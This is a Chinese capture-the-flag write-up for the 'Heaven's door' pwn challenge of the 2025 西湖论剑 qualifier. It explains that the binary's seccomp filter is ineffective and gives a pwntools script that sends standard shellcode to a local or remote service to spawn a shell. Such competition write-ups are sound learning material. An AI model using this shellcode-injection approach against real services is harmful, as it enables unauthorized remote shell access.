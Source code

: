 ```yaml
---
title: 西湖论剑 2025 初赛 - Heaven's door
date: 2025/08/01 23:23:00
updated: 2025/08/02 00:18:00
tags:
    - noob
thumbnail: /assets/westlake2025/heaven_diagram.png
excerpt: 利用无效seccomp绕过限制，直接注入常规shellcode获取shell。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO|Partial|
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## seccomp rules

见下方图例

## 解题思路

可以读取0xc3个字节，执行shellcode，但是扫描了shellcode，只允许2个`syscall`。
仔细观察seccomp，整个防护是无效的！直接打常规的shellcode拿shell都行...

![diagram](/assets/westlake2025/heaven_diagram.png)

[官方wp](https://mp.weixin.qq.com/s/gXYLwdup6HYd_rETUSb9aA)的解法是切换64位/32位系统调用，
*dbgbgtf* 则在考虑再拼一个`syscall`出来。然而，貌似远程执行syscall后，rcx并不是 syscall
之后的地址，他利用rcx做偏移写0x5失败了，最终没有打通。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './heaven'

def payload(lo: int):
    global sh
    if lo & 4:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'set follow-fork-mode parent\nb *0x401709\nc')
    elif lo:
        sh = remote('127.0.0.1', 1336)
        if lo & 2:
            gdb.attach(('127.0.0.1', 1337), 'set follow-fork-mode parent\nb *0x401709\nc', EXE)
    else:
        sh = remote('', 9999)

    sh.send(asm(shellcraft.sh()))

    sh.clean()
    sh.interactive()
    sh.close()
```

## 参考

1. [第八届西湖论剑·中国杭州网络安全技能大赛初赛官方Write Up（下）](https://mp.weixin.qq.com/s/gXYLwdup6HYd_rETUSb9aA)

